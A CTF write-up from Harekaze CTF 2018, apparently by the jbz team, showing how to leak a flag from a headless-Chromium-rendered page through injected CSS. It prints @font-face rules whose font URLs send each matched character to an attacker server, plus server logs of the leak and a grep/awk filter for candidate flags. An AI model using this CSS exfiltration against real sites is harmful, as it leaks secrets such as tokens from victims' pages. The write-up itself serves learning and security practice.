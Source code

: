 ```yaml
---
layout: post
title:  "Harekaze CTF 2018 - A custom CSS for the flag"
date:   2018-02-11 22:00
categories: [HarekazeCTF2018]
tags: [Web]
author: jbz
---
```


Let’s decorate with fashionable CSS in this [site](http://problem.harekaze.com:10003/).

It's a 250 points **web** challenge.
Let's start, this is the home page:

![HomePage](https://raw.githubusercontent.com/jbzteam/CTF/master/HarekazeCTF2018/homepage.png)

As you can see there are some explanations and the source code of the application in the **server.js** [file](https://github.com/jbzteam/CTF/blob/master/HarekazeCTF2018/server.js).  

Thanks to the code we know that it's a node.js server, that has two distinct applications using the express framework. The first application (app) uses Chromium to visit the page served by the second application (app2). 

This page is simple, it has a div with `id=flag` containing the flag and a link pointing to an external css file. This css file is provided by us through the form in the main page.

This is the snippet showing the page structure.
```javascript
    res.send(`<html>
    <link rel="stylesheet" href="${encodeURI(req.query.css)}" />
    <body>
        <div id="flag">
                HarekazeCTF{${fs.readFileSync("flag.txt")}}
        </div>
    </body>
    </html>`);
```

The only part of the page controlled by us is the CSS file, so we need a method to exfiltrate data with CSS.  
Is it possible? YES!

Googling around in order to find a way to exfiltrate data we found a CSS file that uses the @font-face css properties in an interesting way.

For each letter it defines an external font url:
```css
@font-face{
    font-family:'Capital-A';
    src:url('http://ipserver/?Found:A');
    unicode-range:U+0041;
}
@font-face{
    font-family:'Capital-B';
    src:url('http://ipserver/?Found:B');
    unicode-range:U+0042;
}
@font-face{
    font-family:'Capital-C';
    src:url('http://ipserver/?Found:C');
    unicode-range:U+0043;
}
```
... and so on.  
We have to edit this file in order to include the symbols `{}-_` according to the information provided by the chall:  
_"The flag format is the two CSS3 properties connected by a underscore (_).

Example: HarekazeCTF{background-image_font-size}"_

Now the most important part about our CSS file is:
```css
#flag{
    font-family:'Capital-A','Capital-B','Capital-C' ... 
}
```

What the does CSS file do?  
It defines an external font for each letter or symbol, and when the letter is present in the div having `id=flag`, it loads that external font.  
Providing an URL for the font controlled by us we can see which letters compose the flag.

Keep in mind that we can only check whether a letter exists and not the amount of occurrncies.  
Next step is to upload the CSS file on a server managed by us, and to provide the URL to the page in order to have Chromium visiting it.  
Let's take a look at the log files to see which letters and symbols were found.
```
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:F HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:C HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:H HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:d HTTP/1.1" 200 465 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
...
```
Parsing the log, this is the list:
```
Found:F 
Found:C 
Found:H 
Found:d 
Found:e 
Found:k 
Found:T 
Found:b 
Found:a 
Found:o 
Found:z 
Found:{ 
Found:m 
Found:t 
Found:- 
Found:f
Found:r 
Found:l 
Found:i 
Found:n 
Found:s 
Found:u 
Found:_ 
Found:c 
Found:} 
```

How to find the 2 css properties with these letters? Let's check the CSS properties one by one to see which ones have the matching letters.  

Could we use Python, C, or GO? Yes, but we prefer the quick and dirty `grep` and `awk`!

```bash
| grep -v $'g|h|j|p|q|w|x|y' | awk '/d/ && /b/ && /o/ && /m/ && /t/ && /f/ && /l/ && /i/ && /n/ && /s/ && /u/ {print;}'
```
So we are given a list of some possible flags:
```
HarekazeCTF{animation-direction_border-bottom-left-radius}
HarekazeCTF{animation-iteration-count_border-bottom-left-radius}
HarekazeCTF{border-bottom-color_outline-offset}
HarekazeCTF{border-bottom-left-radius_animation-direction}
HarekazeCTF{border-bottom-left-radius_animation-iteration-count}
HarekazeCTF{border-bottom-left-radius_column-count}
HarekazeCTF{border-bottom-left-radius_column-fill}
HarekazeCTF{border-bottom-left-radius_column-rule}
HarekazeCTF{border-bottom-left-radius_column-rule-color}
HarekazeCTF{border-bottom-left-radius_columns}
HarekazeCTF{border-bottom-left-radius_content}
HarekazeCTF{border-bottom-left-radius_counter-increment}
HarekazeCTF{border-bottom-left-radius_counter-reset}
HarekazeCTF{border-bottom-left-radius_direction}
HarekazeCTF{border-bottom-left-radius_outline-color}
HarekazeCTF{border-bottom-left-radius_unicode-bidi}
HarekazeCTF{column-count_border-bottom-left-radius}
HarekazeCTF{column-fill_border-bottom-left-radius}
HarekazeCTF{column-rule_border-bottom-left-radius}
HarekazeCTF{column-rule-color_border-bottom-left-radius}
HarekazeCTF{columns_border-bottom-left-radius}
HarekazeCTF{content_border-bottom-left-radius}
HarekazeCTF{counter-increment_border-bottom-left-radius}
HarekazeCTF{counter-reset_border-bottom-left-radius}
HarekazeCTF{direction_border-bottom-left-radius}
HarekazeCTF{outline-color_border-bottom-left-radius}
HarekazeCTF{outline-offset_border-bottom-color}
HarekazeCTF{unicode-bidi_border-bottom-left-radius}
```
We had to try it one by one, but we followed our heart and, since one of us said that the flag should've started with `border-bottom`, we got really lucky and found it on the 5th attempt:
```
HarekazeCTF{border-bottom-left-radius_animation-direction}
```

Bonus: [a python script](https://github.com/jbzteam/CTF/blob/master/HarekazeCTF2018/css.py) to get the possible flag instead of dirty grep hacks
